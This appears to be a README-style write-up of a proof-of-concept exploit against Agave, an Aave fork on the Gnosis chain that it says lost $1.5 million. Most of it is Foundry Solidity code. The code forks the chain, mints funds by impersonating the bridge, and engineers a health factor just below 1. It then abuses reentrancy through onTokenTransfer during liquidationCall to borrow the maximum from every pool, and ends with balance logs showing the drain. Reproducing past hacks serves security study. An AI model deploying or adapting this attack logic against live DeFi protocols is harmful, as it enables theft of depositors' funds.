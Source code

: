 # Agave 

## Whats agave?

Agave ($AGVE) is a decentralized money market protocol on the xDai chain, developed by the 1Hive community as a fork of Aave. Agave integrates features from 1Hive projects like Celeste and Honeyswap.

Users deposit tokens, receiving 'aTokens' that accrue interest and can be used as collateral for borrowing. This enables leveraged returns with lower fees than mainnet Ethereum. Agave expands 1Hive's offerings, allowing users to earn yield on Honeyswap liquidity tokens. Explore Agave's capabilities, including lending, borrowing, delegated borrowing, and flash loans/

## lost?

1.5 million usd

## poc 

```solidity
   function setUp() public {
        vm.createSelectFork("gnosis", 21_120_283); //fork gnosis at block number 21120319
        providerAddrs = ILendingPoolAddressesProvider(0xA91B9095eFa6C0568467562032202108e49c9Ef8);
        lendingPool = ILendingPool(providerAddrs.getLendingPool());
        priceOracle = IPriceOracleGetter(providerAddrs.getPriceOracle());
        console.log(providerAddrs.getPriceOracle());
        //Lets just mint weth to this contract for initial debt
        vm.startPrank(0xf6A78083ca3e2a662D6dd1703c939c8aCE2e268d); //the gnosis bridge address.
        wethLiqBeforeHack = getAvailableLiquidity(weth);
        //Mint initial weth funding
        WETH.mint(address(this), 2728.934387414251504146 ether);
        WETH.mint(address(this), 1);
        // Mint LINK funding
        LINK.mint(address(this), linkLendNum1);
        vm.stopPrank();

        //Approve funds
        LINK.approve(address(lendingPool), type(uint256).max);
        WETH.approve(address(lendingPool), type(uint256).max);
    }
```





```solidity
 function testExploit() public {
        //Call prepare and get it setup
        prepare();
        _logBalances("Before hack balances");
        console.log("healthf : %d", getHealthFactor());
        flashloanFundingWETH();
        _logBalances("After hack balances");
    }
```



 Prepare Phase:
   - Initial Condition: Ensure that the health factor is slightly above 1.
   - Transition: Advance time by one hour after the initial prepare.
   - Objective: Reduce the health factor to less than 1 in the next block.
   - Purpose: This step is essential for the liquidation call to work, as it requires a health factor below 1.



```solidity
  function prepare() public {
        //follow the flow of this TX https://gnosisscan.io/tx/0x45b2d71f5bbb17fa67341fdf30468f1de032db71760be0cf4df9bac316cda7cc

        uint256 balance = LINK.balanceOf(address(this));
        require(balance > 0, "no link");

        //Deposit weth to aave v2 fork
        lendingPool.deposit(link, linkLendNum1, address(this), 0);
        lendingPool.deposit(weth, wethlendnum2, address(this), 0);

        //Enable asset as collateral

        lendingPool.setUserUseReserveAsCollateral(link, true);
        lendingPool.setUserUseReserveAsCollateral(weth, true);

        //Borrow initial setup prepare debts
        lendingPool.borrow(link, linkDebt3, 2, 0, address(this));
        lendingPool.borrow(weth, wethDebt4, 2, 0, address(this));

        //Withdraw as per tx
        lendingPool.withdraw(link, linkWithdraw5, address(this));
    }
```


    2. Flashloan and Deposit Phase:
   - Action: Execute a flashloan and deposit tokens.
   - Exploited Assets: In this exploit, withdraw and borrow all funds from WETH and maximize borrowing from all available pools.


```solidity
  function flashloanFundingWETH() internal {
        this.uniswapV2Call(address(this), 2730 ether, 0, new bytes(0));
    }
```


```solidity
      function uniswapV2Call(address _sender, uint256 _amount0, uint256 _amount1, bytes calldata _data) external {
        //We simulate a flashloan from uniswap for initial eth funding
        attackLogic(_amount0, _amount1, _data);
    }
```



```solidity
    function attackLogic(uint256 _amount0, uint256 _amount1, bytes calldata _data) internal {
        uint256 amountToken = _amount0 == 0 ? _amount1 : _amount0;
        totalBorrowed = amountToken;
        console.log("Borrowed: %s WETH from Honey", totalBorrowed);
        //This will fast forward block number and timestamp to cause hf to be lower due to interest on loan pushing hf below one
        vm.warp(block.timestamp + 1 hours);
        vm.roll(block.number + 1);
        console.log("healthfAfterAdjust : %d", getHealthFactor());
        //This will start the reentrancy with ontokentransfer call on .burn of the atoken
        lendingPool.liquidationCall(weth, weth, address(this), 2, false);
        //This will withdraw the funds from weth lending pool
        lendingPool.withdraw(weth, _logTokenBal(aweth), address(this));
        //Calculation of flashloan fees for uniswap v2 pair,we just emulate it here for continuity purposes
        uint256 amountRepay = ((amountToken * 1000) / 997) + 1;
        uint256 wethbal = WETH.balanceOf(address(this));
        uint256 remainingeth = wethbal > totalBorrowed ? 0 : totalBorrowed - wethbal;
        if (wethbal < totalBorrowed) {
            console.log("Remaining eth is %d", totalBorrowed - wethbal);
        }
        require(amountRepay < WETH.balanceOf(address(this)), "not enough eth");
        //For test case we just send it to address(1) to reduce the flashloan amount from us to get final assets
        WETH.transfer(address(1), amountRepay);
        console.log("Repay Flashloan for : %s WETH", amountRepay / 1e18);
    }
    
```



Now the attack contract would receive a call :




```solidity
        function onTokenTransfer(address _from, uint256 _value, bytes memory _data) external {
        console.log("tokencall From: %s, Value: %d", _from, _value);
        //we only do the borrow call on liquidation call which is the second time the from is weth and value is 1
        if (_from == aweth && _value == 1) {
            calcount++;
        }
        if (calcount == 2 && _from == aweth && _value == 1) {
            borrowMaxtokens();
        }
    }
}

```




```solidity
    function maxBorrow(address asset, bool maxxx) internal {
        IERC20 assetX = IERC20(asset);
        uint256 assetXbal = assetX.balanceOf(address(this));
        uint256 reserveTokenbal = getAvailableLiquidity(asset);
        console.log("Amont of asset bal in atoken is %d", reserveTokenbal);
        uint256 BorrowAmount = maxxx ? reserveTokenbal - 1 : min(getMaxBorrow(asset, totalBorrowed), reserveTokenbal);
        if (BorrowAmount > 0) {
            console.log("Going to boorrow %d of asset %s", BorrowAmount, asset);
            lendingPool.borrow(asset, BorrowAmount, 2, 0, address(this));
            uint256 diff = assetX.balanceOf(address(this)) - assetXbal;
            require(diff == BorrowAmount, "did not borrow any funds");
            console.log("borrowed %d successfully", BorrowAmount);
        } else {
            console.log("NO amount borrowed???");
        }
    }

```



```solidity
        function getMaxBorrow(address asset, uint256 depositedamt) public view returns (uint256) {
        // Get the LTV (Loan To Value) of the asset from the Aave Protocol
        DataTypesAave.ReserveData memory data = lendingPool.getReserveData(asset);
        uint256 ltv = data.configuration.data & 0xFFFF;

        // Get the latest price of the WETH token from the Aave Oracle
        uint256 wethPrice = priceOracle.getAssetPrice(address(weth));
        console.log(ltv);

        // Adjust for token decimals
        uint256 totalCollateralValueInEth = (depositedamt * wethPrice) / (10 ** 18); // normalize the deposited amount to ETH

        // Calculate the maximum borrowable value
        uint256 maxBorrowValueInEth = (totalCollateralValueInEth * ltv) / 10_000; // LTV is scaled by a factor of 10000

        // Get the latest price of the borrowable asset from the Aave Oracle
        uint256 assetPriceInEth = priceOracle.getAssetPrice(asset);

        // Calculate the maximum borrowable amount, adjust it back to the borrowing asset's decimals
        uint256 maxBorrowAmount = (maxBorrowValueInEth * (10 ** 18)) / assetPriceInEth;
        uint256 scaleDownAmt =
            WETH.decimals() > IERC20(asset).decimals() ? WETH.decimals() - IERC20(asset).decimals() : 0;
        if (scaleDownAmt > 0) {
            return ((maxBorrowAmount / 10 ** scaleDownAmt) * 100) / 100;
        }
        return (maxBorrowAmount * 100) / 100;
    }

```



    3. Exploit Completion:
   - Result: Successful execution drains funds from the lending pool.




```solidity
  Before hack balances
  --- Start of balances --- 
  WETH Balance 2728934387414251504147
  aWETH Balance 1
  USDC Balance 0
  GNO Balance 0
  LINK Balance 766666666660000000
  WBTC Balance 0
  healthf : 1000000000007142895
  --- End of balances --- 



 After hack balances
  --- Start of balances --- 
  WETH Balance 567741240183600637391
  aWETH Balance 0
  USDC Balance 243667634985
  GNO Balance 8408675281445177303948
  LINK Balance 24588008766918391786643
  WBTC Balance 1678601870
  healthf : 1665963675123
  --- End of balances --- 

```
